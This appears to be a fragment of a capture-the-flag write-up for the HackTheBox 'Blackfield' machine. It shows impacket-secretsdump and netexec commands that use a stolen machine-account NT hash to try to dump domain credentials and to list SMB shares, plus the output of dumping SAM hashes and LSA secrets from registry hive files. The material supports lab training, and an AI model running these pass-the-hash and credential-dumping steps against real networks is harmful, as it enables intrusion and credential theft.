 `impacket-secretsdump 'blackfield.local/DC01$@10.10.10.192' -hashes ':a7b601d4359c85e4ebf89f4ec94d571e'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Could not connect: timed out
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```
❌

`netexec smb 10.10.10.192 -u 'DC01$' -H 'a7b601d4359c85e4ebf89f4ec94d571e' --shares`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\DC01$:a7b601d4359c85e4ebf89f4ec94d571e 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

`impacket-secretsdump -system ./smbshare/SYSTEM.save -security ./smbshare/SECURITY.save -sam ./smbshare/SAM.save LOCAL -history`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:e10f62cee046bc8be707e1157928c2334fca6653d6a974a0429d31f3c24e48a474cb725b1ac3eb78cc9cc1903300164be0e06b34047afe1c523a0fa431dab865f6e53b911f9ae19c441190753e58592828068ece713acc5db2f18b826e314023b28a1448b3349002787b4d4e9edc242c7f73aa5d880b2d18aa4ff2e53322cb80757915b495d8071a4e201288b9191f94685458301b7c9add9cfa32ff25411f6a51add38215a4a0bc38a64c455b8aa62e77baf44abf70ecff3f8196721815370bdfdf089dc533afa2b330c106d86b9371bc59005298755672774b5ffb4e19e4f82315547ae064bb7639da01d952c79566
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a7b601d4359c85e4ebf89f4ec94d571e
[*] $MACHINE.ACC_history 
$MACHINE.ACC:plain_password_hex:25816f1fc0f067d67dfc056c21eb2845b1b6db1bd84fa41667561d08d7f847e37dc0abd4691434a6bf617d264b25fac071f2b9ef9a9be49a26a4bf6eaf9aa8cd6cca8ae9b3995ccb905bdbf938aa114867f7aba4a8d1a380e1ed6659a232a6095da93685a5f0ecb1e7be8bfd48874c8417f677ef868ebb5d67ad7952b56a792bfcb626197cfb3d67a68edd53e294b05952c5cda51718e3902ba08262bd26b90176c6b6c5f8e63acdb7cdfe9da2d3f348070392dbaa42a1b12c3ebcdfd64066ea3224db695642a79e9749778bb683bb1b4ececd54351dee3194a78cad725a9cdbbedb758057d49851ad933d9a91e624a1
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec
```